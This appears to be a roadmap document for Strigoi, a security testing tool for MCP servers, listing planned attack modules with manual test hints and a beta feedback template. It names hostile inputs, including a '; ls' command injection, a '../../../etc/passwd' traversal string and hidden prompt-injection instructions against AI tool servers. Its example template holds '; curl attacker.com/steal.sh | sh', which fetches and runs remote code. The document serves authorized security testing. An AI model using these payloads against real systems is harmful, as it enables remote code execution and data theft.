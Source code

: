 # Strigoi Module Implementation Roadmap

## Release Strategy
- **Implemented**: Ready for beta testing
- **Not Implemented**: Identified but manual testing required
- **Beta Feedback**: Users tell us automation priorities

## Module Status for Beta Release

### ✅ Implemented Modules
```
mcp/discovery/tools_list       - Enumerate exposed tools
mcp/discovery/prompts_list     - Discover available prompts  
mcp/discovery/resources_list   - List accessible resources
mcp/attack/auth_bypass         - Test authentication bypasses
mcp/attack/rate_limit          - Check rate limiting
```

### 🔄 Not Implemented (Manual Testing Required)

#### Critical Priority
```
mcp/validation/command_injection   [NOT IMPLEMENTED]
Manual test: Try payloads like "; ls" in tool parameters
Beta feedback needed: Which tools are most vulnerable?

mcp/validation/prompt_injection    [NOT IMPLEMENTED]  
Manual test: Hidden instructions in documents/images
Beta feedback needed: Effective detection patterns?

mcp/auth/token_scope_analyzer     [NOT IMPLEMENTED]
Manual test: Check if tokens have excessive permissions
Beta feedback needed: Common over-scoping patterns?
```

#### High Priority
```
mcp/protocol/jsonrpc_fuzzer       [NOT IMPLEMENTED]
Manual test: Send malformed JSON-RPC requests
Beta feedback needed: Which implementations crash?

mcp/state/session_security        [NOT IMPLEMENTED]
Manual test: Try predictable session IDs, fixation
Beta feedback needed: Common session storage locations?

mcp/access/path_traversal         [NOT IMPLEMENTED]
Manual test: "../../../etc/passwd" in file parameters
Beta feedback needed: Which MCP servers are vulnerable?
```

#### Medium Priority
```
mcp/state/race_condition_detector  [NOT IMPLEMENTED]
Manual test: Concurrent requests to same resource
Beta feedback needed: Timing-sensitive operations?

mcp/dos/resource_exhaustion       [NOT IMPLEMENTED]
Manual test: Large payloads, infinite loops
Beta feedback needed: Resource limits in practice?

mcp/protocol/version_downgrade    [NOT IMPLEMENTED]
Manual test: Force older protocol versions
Beta feedback needed: Version negotiation flaws?
```

## Beta Tester Guidance

### For Each "NOT IMPLEMENTED" Module:

1. **What to Test Manually**
   - Clear steps for manual verification
   - Example payloads and techniques
   - Expected vulnerable behaviors

2. **What to Report Back**
   - Which MCP servers are vulnerable
   - Specific payload variations that work
   - False positive patterns to avoid
   - Automation suggestions

3. **Risk Assessment**
   - Severity in your environment
   - Frequency of occurrence
   - Business impact if exploited

## Example Beta Feedback Template

```markdown
Module: mcp/validation/command_injection
MCP Server Tested: continue-mcp v1.2.3
Vulnerable: YES

Working Payload: 
- Tool: convertImage
- Parameter: "; curl attacker.com/steal.sh | sh"
- Result: Remote code execution achieved

Automation Suggestion:
- Test common shell metacharacters: ; | & ` $()
- Check all string parameters in tools
- Look for os.system(), exec(), subprocess calls

Priority: CRITICAL for our environment
```

## Benefits of This Approach

1. **Faster Beta Release**: Core recon works, advanced attacks manual
2. **Real-World Validation**: Beta users test against actual MCP servers
3. **Prioritized Development**: Build what users actually need
4. **Community Intelligence**: Crowd-sourced vulnerability discovery
5. **Defensive Empowerment**: Even manual tests help secure systems

## Post-Beta Development Priority

Based on feedback, implement modules in order of:
1. Most commonly found vulnerabilities
2. Highest impact attacks
3. Easiest to automate reliably
4. Most requested by community

## Message to Beta Users

"We've identified these attack vectors but need YOUR help prioritizing automation. Test these manually against your MCP servers (in authorized environments only!) and tell us:
- What worked?
- What's most critical?
- How should we automate it?

Your feedback directly shapes Strigoi's development!"